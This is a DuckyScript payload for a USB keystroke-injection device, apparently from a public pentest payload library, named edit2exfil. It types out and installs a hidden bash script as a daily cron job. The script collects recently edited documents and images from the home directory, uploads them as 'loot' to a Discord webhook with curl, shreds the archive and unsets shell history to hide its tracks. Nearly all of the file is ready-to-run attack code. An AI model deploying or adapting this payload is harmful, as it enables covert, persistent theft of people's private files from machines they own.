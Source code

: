 REM TITLE: edit2exfil

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux Release 2025-W19)

REM DESCRIPTION: (See below)

REM REQUIREMENTS: Place Discord webhook in the #WEBHOOK_URL constant on line 10 | Timing of when and how frequent the script will be ran (10:00 AM, daily by default) via `cronjob` can be changed in line 53.

REM: This payload can also be found on the [hak5 usbrubberducky-payloads Github repository](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/exfiltration/edit2exfil).

## edit2exfil

edit2exfil is a persistent file exfiltration payload that embeds itself as a `cronjob` on Linux systems via bash script, running silently in the background allowing for persistent exfiltration of updated files.

**The payload builds a bash script (.e2e.sh) that performs multiple tasks in the following order:**

1. a `net_check` conditional statement is utilized to see if the machine has internet connectivity. This is acheived by sending a `PING` to [Hak5.org](https://hak5.org). If `PING` was **NOT** successful, the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing). If the `PING` **WAS** successful, the script moves to a secondary conditional statement >
2. a `file_check` conditional statement is utilized to see if the following document file types have been modified (edited) in the past 24 hours in the /home directory (recursively): `.txt, .pdf, .docx, .doc, .csv, .xlsx, .png, .jpg, .jpeg, .sh`. If there are **NOT** any documents (with the previous file types) that have been modified in the past 24 hours in the /home directory (recursively), the script exits and will be ran again in 24 hours by default (or the next scheduled time of your choosing), else >
3. The files are tarballed (.loot.tar.gz) and placed (hidden) in the /home directory for exfiltration >
4. The tarball is then exfiltrated via Discord webhook >
5. The tarball is then `shredded` to obfuscate its' presence >
6. End of script.

Total time for DuckyScript payload to run: `7 seconds`.

**DuckyScript Payload Workflow:**
  1. Terminal window is opened >
  2. Terminal history is unset (to obfuscate building of the payloads' bash script (.e2e.sh) > bash script is built >
  3. Execution permissions are given to .e2e.sh > .e2e.sh is added to `cronjob` to automatically run silently in the bachkground daily at 10:00 AM >
  4. Terminal window is closed >
  5. End of payload.

**Payload Bash Script (.e2e.sh):**
```
# Creating file_check function to see if the listed filetypes (and their respective documents) have been modified (edited) in the past 24 hours:
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}

# Creating hidden tarball function to tarball the listed documents (of the respective filetypes) that have been modified (edited) in the past 24 hours:
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}

# Creating net_check function to check for internet connectivity by send a PING to hak5.org:
net_check() {
    ping -c 1 hak5.org
}

# Creating global $user variable:
user="$(whoami)"

# If internet connection, check for files, if files, tarball, else exit:
if net_check; then
    if file_check; then
        tarball
    else
        :
    fi
else
    :
fi

# Exfiltrate tarball of found files to Discord:
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL

# Shred the tarball post exfiltration to obfuscate:
shred -fuz ~/.loot.tar.gz
```

**DuckyScript Payload (building of above script):**
```
REM Place Discord webhook and user constants:
DEFINE #WEBHOOK_URL https://discord.com/api/webhooks/PLACE/WEBHOOK/HERE
DEFINE #USER PLACE_USER_HERE

REM Begin attack:
ATTACKMODE HID
DELAY 1000

REM Opening terminal:
CTRL ALT t
DELAY 300

REM Unsetting terminal history and building ".e2e.sh":
STRINGLN unset HISTFILE
STRINGLN cat > .e2e.sh
STRINGLN_BASH
file_check() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | grep -q . 
}
tarball() {
    find ~ -mtime -1 -type f \( -name "*.txt" -o -name "*.pdf" -o -name "*.docx" -o -name "*.doc" -o -name "*.csv" -o -name "*.xlsx" -o -name "*.png" -o -name "*.jpg" -o -name "*.jpeg" -o -name "*.sh" \) -print0 | tar -czf ~/.loot.tar.gz --null -T -
}
net_check() {
    ping -c 1 hak5.org
}
user="$(whoami)"

if net_check; then
    if file_check; then
        tarball
    else
        :
    fi
else
    :
fi
curl -X POST -H "Content-Type: multipart/form-data" \
-F "file=@/home/$user/.loot.tar.gz" \
-F "content=$ Loot Incoming $" \
#WEBHOOK_URL
shred -fuz ~/.loot.tar.gz
END_STRINGLN
CTRL c

REM Granting execution permissions and adding ".e2e.sh" to cronjob to be executed at 10:00 AM, daily:
STRINGLN chmod +x .e2e.sh && (crontab -l; echo "0 10 * * * ~/.e2e.sh") | crontab - && exit
```
